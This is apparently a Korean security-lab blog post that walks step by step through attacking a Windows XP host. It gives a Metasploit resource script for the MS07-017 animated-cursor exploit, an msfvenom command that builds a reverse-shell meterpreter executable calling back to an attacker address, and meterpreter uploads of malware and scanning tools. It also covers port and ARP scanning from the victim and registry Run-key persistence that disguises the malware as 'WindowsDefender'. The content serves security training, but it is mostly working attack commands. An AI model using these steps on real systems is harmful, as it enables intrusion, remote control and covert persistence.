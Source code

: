 ```yaml
---
title: 네트워크보안 정보수집과 제어 지속
author:
  name: Cotes Chung
  link: https://github.com/cotes2020
date: 2022-05-10 20:00:00 +0800
categories: [Blogging, Network]
tags: [getting started]
pin: false
---
```


## Step1. 세션 획득

---

msfconsole을 이용하여 윈도우 xp의 세션을 획득한다.

저번 차시에 사용되었던 redirect.php를 이용하여 세션을 얻는 방법이다.

많은 부분은 생략을 하도록 한다.

<br>

> CentOS에서 진행한다.

CentOS에서 웹 서비스를 사용할 수 있도록 한다.

```console
centos# service httpd start
```

<br>

> Kali에서 진행한다.

애니커서 취약점이 있는 msfconsole 공격 스크립트를 작성한다.

```vim
#파일명 : ms07_017_meterpreter_reverse_tcp.rc

use exploit/windows/browser/ms07_017_ani_loadimage_chunksize
set SRVPORT 8080
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.57.10
exploit
```

```console
kali# msfconsole -r ms07_017_meterpreter_reverse_tcp.rc
```

<br>

msfvenom을 사용해 윈도우 xp의 세션을 얻을 수 있는 악성 프로그램(malware)을 만든다.

```console
kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.57.10 LPORT=8081 -f exe > malware.exe
```

<br>

> 윈도우 xp에서 진행 한다.

사용자(xp)가 CentOS 서버에 접속하여 공격자에게 세션 정보가 넘어가는지 확인한다.

![1](https://user-images.githubusercontent.com/59737252/167641574-13e8d460-bbb4-472e-a2bd-71511783a3ea.png)

![2](https://user-images.githubusercontent.com/59737252/167641813-8df513f6-123d-4ce0-ad23-599b3bb5c744.png)

<br>

## Step2. 악성 파일 업로드

---

애니 커서 취약점을 통해 얻은 세션으로 악성 파일 및 정보수집 툴을 업로드 한다.

> 칼리에서 진행한다.

```console
#세션 설정
msf> sessions -l     #세션 목록 확인
msf> sessions -i 1   #세션 선택

#파일 업로드
meterpreter> upload /var/www/plink.exe c:\\windows\\temp\\plink.exe
meterpreter> upload /var/www/arping.exe c:\\windows\\temp\\arping.exe
meterpreter> upload /var/www/arping_auto.bat c:\\windows\\temp\\arping_auto.bat
meterpreter> upload /root/Desktop/malware.exe c:\\windows\\temp\\malware.exe
meterpreter> upload /root/Desktop/PortQry.exe c:\\windows\\temp\\PortQry.exe
```

![4](https://user-images.githubusercontent.com/59737252/167646800-6626f560-b631-4760-a222-946cbf2d6554.png)

![3](https://user-images.githubusercontent.com/59737252/167646792-f31d135c-4fd7-4438-ba61-c1408ec262ce.png)

<br>

## Step3. 정보 수집

Remote System Discovery 기술이 사용된 ARPING,

Network Service Scanning 기술이 사용된 PORTQRY를 사용하여 정보수집을 한다.

<br>

### PortQry를 이용한 정보 수집

> CentOS에서 진행한다.

PortQry를 이용하여 포트 스캐닝을 위해서 sshd와 httpd 서비스를 실행하여 준다.

```console
centos# service sshd start   # 22번 포트
centos# service httpd start  # 80번 포트
```

![5](https://user-images.githubusercontent.com/59737252/167650243-77d6aa77-4b98-422a-b607-7f95626b8ad9.png)

<br>

> kali에서 진행한다.

사용자(xp)에서 웹 서버 주소로 포트 스캐닝을 한다.

```console
meterpreter> shell    #쉘 획득
> cd c:\windows\temp
> PortQry -n 192.168.57.80 -o 21,22,25,445,139,80
```

<br>

포트 스캐닝 결과를 보면, 22번 포트와 80번 포트가 열린것을 볼 수 있다.

또한 마이크로소프트에서 지원하는 445번과 139번이 NOT LISTENING 인것으로 보아 윈도우 서버가 아님을 알 수 있다.

![6](https://user-images.githubusercontent.com/59737252/167652600-f9f41991-12e2-4fee-a73a-a2aa29435938.png)

<br>

---

### ARPING을 이용한 정보 수집

arping툴을 이용하여 스캐닝할 수 있도록 arping_auto.bat 파일을 사용한다.

코드를 보면 1~30까지 반복하면서, arping 실행 결과를 result.txt로 출력하는것을 알 수 있다.

```shell
#arping_auto.bat

@echo off
set /a n=0
:repeat
set /a n+=1
echo 192.168.56.%n%
arping.exe -n 1 192.168.56.%n% >> result.txt
if %n% lss 30 goto repeat
```

<br>

> kali에서 진행한다.

```console
meterpreter> shell    #쉘 획득
> cd c:\windows\temp
> arping_auto.bat

> type result.txte
```

<br>

결과를 보았을 때,

게이트웨이(192.168.56.2), xp1(192.168.56.10), xp2(192.168.56.20)가 응답한 것을볼 수 있다.

![9](https://user-images.githubusercontent.com/59737252/167656308-7860b47c-0d10-4b0b-ae82-4f2c9a3e1497.png)

![7](https://user-images.githubusercontent.com/59737252/167656705-ba3b0f1e-6bd6-4fe5-8d9f-23d943871187.png)

![8](https://user-images.githubusercontent.com/59737252/167656082-56309303-397a-4a31-8fce-987129d2753a.png)

<br>

<br>

## Step4. 제어 지속

---

<br>
악성 코드 제어지속을 위해 레지스트리에 접근한다.

레지스트리 경로는 "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" 에 접근을 하도록 하는데, 이는 부팅시 자동으로 실행해주는 목록이다.

공격자가 사용자의 쉘이 이미 확보된 상태에서 진행한다.

<br>

> kali에서 진행한다.

```console
meterpreter> shell

> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /t REG_SZ /d "C:\Windows\Temp\malware.exe" /f
```

![10](https://user-images.githubusercontent.com/59737252/167658579-1a875a54-49ee-4ad7-a7e0-1aa06b5d086f.png)

<br>

해당 명령어가 정상적으로 되었다면, 윈도우에서 레지스트리가 잘 저장되었는지 확인하도록 한다.
![11](https://user-images.githubusercontent.com/59737252/167658775-5c8b089a-503e-4fc3-a154-f2bfde9034b3.png)

<br>

칼리 리눅스에서 핸들러를 켜놓고, 사용자(xp)를 재부팅 시켜보면 부팅될 때마다 malware가 실행되어 세션이 넘어가는것을 볼 수 있다.

![12](https://user-images.githubusercontent.com/59737252/167660292-23e72814-9b39-416c-916a-b331716f70d7.png)
